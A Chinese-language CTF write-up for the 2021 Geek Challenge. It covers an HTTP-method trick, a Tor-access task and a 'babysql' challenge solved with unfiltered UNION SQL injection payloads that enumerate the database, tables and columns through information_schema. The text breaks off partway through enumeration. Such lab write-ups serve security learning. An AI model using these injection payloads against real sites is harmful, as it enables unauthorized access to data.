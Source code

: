 

## 极客大挑战2021

###  Welcome2021

考点：`http头请求方法`
F12，提示`请使用WELCOME请求方法来请求此网页 `
burp抓包，修改请求方法，发现`f1111aaaggg9.php`
再次请求得到flag
![image-20211015113241243](https://img-blog.csdnimg.cn/img_convert/bd619ebfb5c82a482ee99f1e240a00c4.png)

### Dark

Tor浏览器(洋葱浏览器)直接访问访问即可。
但前提自己需要去配好Tor浏览器。

### babysql

考点：`没有任何过滤的union注入`

前面还是先查是整数注入还是字符注入

查列数

```sql
uname=1' order by 4#
```

查库：babysql

```sql
uname=-1' union select database(),2,3,4#&pwd=1
```

查表：`jeff,jeffjokes`

```sql
uname=-1' union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema=database()%23&pwd=1
查列：
```

jeff

`uname,pwd,zzzz,uselesss`

```sql
uname=-1' union select group_concat(column_name),2,3,4 from information_schema.columns where table_name="jeff"%23&pwd=1
```

jeffjokes

`id,english,chinese,misc,useless`

```sql
uname=-1' union select group_concat(column_name),2,3,4 from information_schema.columns where table_name="jeffjokes"%23&pwd=1
```
